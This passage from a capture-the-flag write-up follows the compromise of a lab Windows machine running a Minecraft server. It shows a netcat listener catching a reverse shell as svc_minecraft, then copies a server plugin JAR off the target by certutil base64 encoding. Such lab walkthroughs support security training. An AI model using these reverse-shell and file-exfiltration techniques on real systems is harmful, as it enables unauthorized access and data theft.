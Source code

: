 And we got reverse shell as svc_minecraft

```shell
labadmin@labmachine:~/crafty$ nc -lvnp 6000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:6000
Ncat: Listening on 0.0.0.0:6000
Ncat: Connection from 10.10.11.249:49820.
whoami
crafty\svc_minecraft
PS C:\users\svc_minecraft\server> 
```

And we get the user flag.

```shell
PS C:\users\svc_minecraft\Desktop> type user.txt
[...OMITTED...]
```

## Privilege Escalation

Exploring the file system we find the Minecraft server directory and the plugin `playercounter-1.0-SNAPSHOT.jar`.

```shell
PS C:\Users\svc_minecraft\server\plugins> icacls playercounter-1.0-SNAPSHOT.jar
playercounter-1.0-SNAPSHOT.jar NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Administrators:(I)(F)
                               CRAFTY\svc_minecraft:(I)(RX)
```

To transfer the file locally we will base64 encode it on the target machine and then copy the base64 text to local machine and finally base64 decode it back to a binary.

On target machine.

```shell
mkdir C:\tmp
PS C:\tmp> copy C:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar C:\tmp\ 
PS C:\tmp> certutil -encode playercounter-1.0-SNAPSHOT.jar encoded.txt
Input Length = 9996
Output Length = 13802
CertUtil: -encode command completed successfully.
PS C:\tmp> type encoded.txt
-----BEGIN CERTIFICATE-----
UEsDBBQACAgIABY0W1cAAAAAAAAAAAAAAAAJAAQATUVUQS1JTkYv/soAAAMAUEsH
CAAAAAACAAAAAAAAAFBLAwQUAAgICAAWNFtXAAAAAAAAAAAAAAAAFAAAAE1FVEEt
[...OMITTED...]
```

We copy the base64 to a local file and decode it. And we confirm it is a JAR file.

```shell
labadmin@labmachine:~/crafty$ cat encoded.txt |  base64 --decode > playercounter-1.0-SNAPSHOT.jar
labadmin@labmachine:~/crafty$ file playercounter-1.0-SNAPSHOT.jar 
playercounter-1.0-SNAPSHOT.jar: Java archive data (JAR)
```
